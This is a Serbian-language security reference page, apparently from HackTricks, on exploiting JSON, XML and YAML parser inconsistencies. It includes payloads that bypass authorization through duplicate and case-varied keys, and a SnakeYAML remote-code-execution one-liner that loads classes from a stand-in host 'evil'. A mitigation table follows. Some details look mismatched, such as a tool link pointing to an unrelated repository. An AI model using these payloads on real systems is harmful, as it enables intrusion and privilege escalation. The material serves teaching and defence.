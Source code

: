 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

Sledeći problemi su otkriveni u Go JSON-u, iako se mogu pojaviti i u drugim jezicima. Ovi problemi su objavljeni u [**ovom blog postu**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

Go-ovi JSON, XML i YAML parseri imaju dugu istoriju nedoslednosti i nesigurnih podrazumevanih postavki koje se mogu iskoristiti za **obići autentifikaciju**, **povećati privilegije** ili **ekstraktovati osetljive podatke**.


### (Un)Marshaling Unexpected Data

Cilj je iskoristiti strukture koje omogućavaju napadaču da čita/piše osetljiva polja (npr., `IsAdmin`, `Password`).

- Primer strukture:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Uobičajene ranjivosti

1. **Nedostajući tag** (bez taga = polje se i dalje obrađuje po defaultu):
```go
type User struct {
Username string
}
```
Teret:
```json
{"Username": "admin"}
```
2. **Pogrešna upotreba `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Payload:
```json
{"-": true}
```
✔️ Pravi način da se blokira polje od (de)serijalizacije:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Parser Differentials

Cilj je zaobići autorizaciju iskorišćavanjem načina na koji različiti parseri različito interpretiraju isti payload, kao u:
- CVE-2017-12635: Apache CouchDB zaobilaženje putem duplih ključeva
- 2022: Zoom 0-click RCE putem nekonzistentnosti XML parsera
- GitLab 2025 SAML zaobilaženje putem XML čudnosti

**1. Dupli Polja:**
Go-ov `encoding/json` uzima **poslednje** polje.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
Ostali parseri (npr., Java-ov Jackson) mogu uzeti **prvi**.

**2. Neosetljivost na velika i mala slova:**
Go je neosetljiv na velika i mala slova:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Čak i Unicode trikovi rade:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Neusklađenost između usluga:**
Zamislite:
- Proxy napisan u Go
- AuthZ usluga napisana u Pythonu

Napadač šalje:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python vidi `UserAction`, dozvoljava ga
- Go vidi `AdminAction`, izvršava ga


### Zbunjenost formata podataka (Poliglot)

Cilj je iskoristiti sisteme koji mešaju formate (JSON/XML/YAML) ili se otvaraju na greškama parsera kao što su:
- **CVE-2020-16250**: HashiCorp Vault je parsirao JSON sa XML parserom nakon što je STS vratio JSON umesto XML.

Napadač kontroliše:
- `Accept: application/json` zaglavlje
- Delimičnu kontrolu nad JSON telom

Go-ov XML parser je to **u svakom slučaju** parsirao i verovao injektovanoj identitetu.

- Kreirani payload:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
Rezultat:
- **Go JSON** parser: `Action_2` (neosetljivo + poslednje pobednik)
- **YAML** parser: `Action_1` (osetljivo na velika i mala slova)
- **XML** parser: parsira `"Action_3"` unutar stringa

---

## Značajne ranjivosti parsera (2023-2025)

> Sledeći javno eksploatabilni problemi pokazuju da je nesigurno parsiranje problem više jezika — nije samo problem Go-a.

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* Pogađa: `org.yaml:snakeyaml` < **2.0** (koristi se u Spring-Boot, Jenkins, itd.).
* Osnovni uzrok: `new Constructor()` deserializuje **arbitrarne Java klase**, omogućavajući lanac gadgeta koji kulminira u izvršavanju daljinskog koda.
* Jednolinijski PoC (otvoriće kalkulator na ranjivom hostu):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Popravka / Ublažavanje:
1. **Ažurirajte na ≥2.0** (koristi `SafeLoader` po defaultu).
2. Na starijim verzijama, eksplicitno koristite `new Yaml(new SafeConstructor())`.

### libyaml Double-Free (CVE-2024-35325)

* Pogađa: `libyaml` ≤0.2.5 (C biblioteka koja se koristi u mnogim jezičkim vezama).
* Problem: Pozivanje `yaml_event_delete()` dva puta dovodi do double-free koji napadači mogu iskoristiti za DoS ili, u nekim scenarijima, eksploataciju heap-a.
* Status: Upstream odbijen kao “zloupotreba API-ja”, ali Linux distribucije su isporučile zakrčenu **0.2.6** koja null-frees pokazivač odbrambeno.

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Pogađa: Tencent **RapidJSON** pre commit-a `8269bc2` (<1.1.0-patch-22).
* Greška: U `GenericReader::ParseNumber()` neproverena aritmetika omogućava napadačima da kreiraju ogromne numeričke literale koji se obavijaju i korumpiraju heap — što na kraju omogućava eskalaciju privilegija kada se rezultantna objekatna grafika koristi za odluke o autorizaciji.

---

### 🔐 Ublažavanja (Ažurirano)

| Rizik                                | Popravka / Preporuka                                      |
|-------------------------------------|------------------------------------------------------------|
| Nepoznati polja (JSON)               | `decoder.DisallowUnknownFields()`                          |
| Duplikat polja (JSON)             | ❌ Nema popravke u stdlib — validirajte sa [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Neosetljiva podudarnost (Go)         | ❌ Nema popravke — validirajte oznake strukture + pre-kanonizujte ulaz   |
| XML smešni podaci / XXE              | Koristite ojačan parser (`encoding/xml` + `DisallowDTD`)     |
| YAML nepoznati ključevi                   | `yaml.KnownFields(true)`                                   |
| **Nepouzdana YAML deserializacija**     | Koristite SafeConstructor / ažurirajte na SnakeYAML ≥2.0            |
| libyaml ≤0.2.5 double-free          | Ažurirajte na **0.2.6** ili distribucijski zakrčenu verziju            |
| RapidJSON <zakrčeni commit           | Kompajlirajte protiv najnovijeg RapidJSON (≥Juli 2024)              |

## Reference

- Baeldung – “Rešavanje CVE-2022-1471 sa SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
